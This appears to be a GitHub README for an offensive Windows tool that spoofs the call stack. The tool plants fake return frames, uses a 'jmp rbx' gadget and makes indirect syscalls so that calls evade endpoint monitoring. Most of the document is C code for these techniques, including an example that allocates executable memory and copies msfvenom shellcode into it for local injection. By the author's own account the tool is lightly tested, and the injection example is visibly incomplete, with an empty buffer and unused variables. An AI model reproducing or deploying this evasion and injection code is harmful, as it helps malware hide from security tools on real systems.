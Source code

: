 # LoudSunRun
My shitty attempt at tampering with the callstack based on the work of namazso, SilentMoonWalk, and VulcanRaven

## Why?
Wanted to see how this magic shit worked and slapped random shit together. I think it works but don't quote me. All I do is stare at process hacker and go brr

## Overview
There are a few steps this abomination of c/asm does

1. Allocate args on stack
2. Generate fake frames
3. Prep syscall
4. Spoof the return address
5. Make the call

To perform these, a param struct is passed as arg 5 and the number of stack args is passed on arg 6. The param struct contains the following:
* address of the `jmp rbx` gadget  
* the original return address (for the Spoof function to return to)
* the stack sizes of our fake frames and gadget
* the address we want our fake frames to show on the call stack
* a SSN for syscalls (if included/ommited for non indirect syscalls, it does not affect anything)

The total stack size of the fake frames is calculated and the stack args are moved accordingly. A 0 is pushed onto the stack (which somehow cuts off the rest of the call stack??). 

Frames are then added, but in reverse order of appearence on the stack. They are planted like so  

1. Decrement stack pointer by the frame's size
2. Place the return address at the stack pointer

Then, the param struct is modified to "save" some information. The `fixup` function is loaded into the rbx, so when the function returns (to a `jmp rbx` gadget), it will land into `fixup`. Fixup then undoes all the funky stack pointer movement, restores the rbx, and jumps back to the OG return address.

## Implementation
A function can be called like so
```c
Spoof(arg1, arg2, arg3, arg4, &param, function, (PVOID)0);
```
Param is a struct containing some necessary information for the call to have fake frames added.  
The 6th argument is a pointer to the function to execute  
The 7th argument specifies the number of args to pass to the stack. It has to be at an 8 byte size.

Example of calling NtAllocateVirtualMemory with the indirect syscall method
```c 
/////////////////////////////
// Initialize param struct //
/////////////////////////////
PVOID ReturnAddress = NULL;
PRM p = { 0 };
NTSTATUS status = STATUS_SUCCESS;

//just find a JMP RBX gadget. Can look anywhere. I chose k32
p.trampoline = FindGadget((LPBYTE)GetModuleHandle(L"kernel32.dll"), 0x200000); 
printf("[+] Gadget is at 0x%llx\n", p.trampoline);

// Would walk export table but am lazy
ReturnAddress = (PBYTE)(GetProcAddress(LoadLibraryA("kernel32.dll"), "BaseThreadInitThunk")) + 0x14; 
p.BTIT_ss = CalculateFunctionStackSizeWrapper(ReturnAddress);
p.BTIT_retaddr = ReturnAddress;

ReturnAddress = (PBYTE)(GetProcAddress(LoadLibraryA("ntdll.dll"), "RtlUserThreadStart")) + 0x21;
p.RUTS_ss = CalculateFunctionStackSizeWrapper(ReturnAddress);
p.RUTS_retaddr = ReturnAddress;

p.Gadget_ss = CalculateFunctionStackSizeWrapper(p.trampoline);

// Hard coded for my machine, theoretically you do FreshyCalls or something
p.ssn = 0x18; 

/////////////////////////////
// Initialize Syscall Args //
/////////////////////////////

PVOID alloc = NULL;
SIZE_T size = 1024;

///////////////////////////
// Call with fake frames //
///////////////////////////

Spoof((PVOID)(-1), &alloc, NULL, &size, &p, pNtAllocateVirtualMemory, (PVOID)2, (PVOID)(MEM_COMMIT | MEM_RESERVE), (PVOID)PAGE_EXECUTE_READWRITE);

```

If your machine works like mine, it will look like this

![Call Stack](https://i.imgur.com/aHWnX4S.png)

Example calling calc
```
unsigned char buf[] = //msfvenom brrr

PVOID alloc = NULL;
SIZE_T size = 1024;

PVOID pNtAllocateVirtualMemory = (PBYTE)(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory")) + 0x12;
PVOID pMemcpy = GetProcAddress(LoadLibraryA("msvcrt.dll"), "memcpy");
PVOID pNtCreateThreadEx = (PBYTE)(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx")) + 0x12;

p.ssn = 0x18;
Spoof((PVOID)(-1), &alloc, NULL, &size, &p, pNtAllocateVirtualMemory, (PVOID)2, (PVOID)(MEM_COMMIT | MEM_RESERVE), (PVOID)PAGE_EXECUTE_READWRITE);
Spoof(alloc, buf, (PVOID)276, NULL, &p, pMemcpy, (PVOID)0);
p.ssn = 0xc2;
PVOID hThread = NULL;
Spoof((PVOID)INFINITE, NULL, NULL, NULL, &p, Sleep, (PVOID)0);
Sleep(2000);
```
## Concerns
I have not done extensive testing with this. I only called a few functions and tried a local shellcode injection. Could be some edge cases I haven't considered. Also I don't have a huge background in this stuff, so there could be some inaccuracies.

Please reach out to me so I can learn cause I'm dumb as fuck. Godspeed.

## Credits
5pider - Gadget Finder code  
namazso - Return Address Spoofing  
klezvirus - SilentMoonWalk (for Frame funky things)  
william-burgess - Vulcan Raven (for finding stack wrapper)
